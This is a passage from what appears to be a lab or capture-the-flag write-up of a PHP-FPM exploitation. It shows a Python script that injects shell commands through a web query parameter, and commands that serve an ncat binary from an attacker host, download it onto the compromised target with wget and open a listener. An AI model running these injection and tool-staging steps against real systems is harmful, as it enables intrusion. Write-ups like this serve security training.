 ![fpm](images/fpm-exploit-working2.png)

We confirmed that exploit worked. To make exploitation easier, we created simple python script:
```python3
import requests

data = f'/bin/sh -c "ping -c1 172.30.0.9"'
params = {'a': f'{data}'}

response = requests.get('http://192.168.254.3/index.php', params=params)
content = response.content.decode()
print(''.join(content.split('\n')[:-3]))
```

![ping](images/portunreachable.png)

Unfortunately, it confirmed that target does not know the network route to us. Luckily, our first target knows that route, so [`netcat`](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat) was transfered to that machine.

- Host:
```console
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat
$ python3 -m http.server 8000
```

![http.server](images/pythonserver.png)

- Target:
```console
$ wget http://172.30.0.9:8000/ncat
$ chmod +x ncat 
$ ./ncat -lvnp 4444
```
